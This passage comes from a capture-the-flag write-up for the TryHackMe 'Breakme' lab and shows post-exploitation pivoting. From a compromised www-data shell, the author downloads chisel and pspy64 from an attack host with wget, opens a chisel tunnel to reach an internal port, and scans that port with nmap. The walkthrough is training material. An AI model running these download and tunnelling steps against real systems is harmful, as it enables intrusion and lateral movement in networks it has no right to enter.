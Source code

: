 We can now use wget on the target to download this binary from our attack host.
```bash
www-data@Breakme:/tmp$ wget 10.8.23.19/chisel
--2024-09-26 17:30:37--  http://10.8.23.19/chisel; chmod 755 chisel             
2024-09-26 17:30:41 (2.26 MB/s) - ‘chisel’ saved [8654848/8654848]
<SNIP>

www-data@Breakme:/tmp$ wget 10.8.23.19/pspy64; chmod 755 pspy64
--2024-09-26 23:33:08--  http://10.8.23.19/pspy64
<SNIP>    
2024-09-26 23:33:12 (1008 KB/s) - ‘pspy64’ saved [3104768/3104768]
```

We can now run Chisel on our target using the server option in the background and run pspy64 to track the server's execution flow.
```bash
www-data@Breakme:/tmp$ ./chisel server -p 4444 &
[1] 1417
www-data@Breakme:/tmp$ 2024/09/26 23:34:53 server: Fingerprint acOc0jhUsJnFUCyfbA1YF9Z5aPDK01T2iw450PPmRJ8=
2024/09/26 23:34:53 server: Listening on http://0.0.0.0:4444
www-data@Breakme:/tmp$./pspy64  
```

On our attack host, we need to run Chisel with the client option to connect to Chisel's server running on the target. This setup will route all traffic sent to our local port 9999 to the target port 9999 listening on 127.0.0.1.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Breakme/Scans/Web]
└─$ chisel client 10.10.230.208:4444 9999:127.0.0.1:9999
2024/09/27 04:13:58 client: Connecting to ws://10.10.230.208:4444
2024/09/27 04:13:58 client: tun: proxy#9999=>9999: Listening
2024/09/27 04:14:00 client: Connected (Latency 307.622434ms)
```

Now that our local port 9999 routes traffic to the target port 9999 listening on the internal IP address, we can conduct a service scan on our local port to enumerate the service running on this particular port.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme]
└─$ nmap -sV -sC  127.0.0.1 -p9999
<SNIP>
PORT     STATE SERVICE VERSION
9999/tcp open  http    PHP cli server 5.5 or later (PHP 7.4.33)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Test

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 215.82 seconds
```
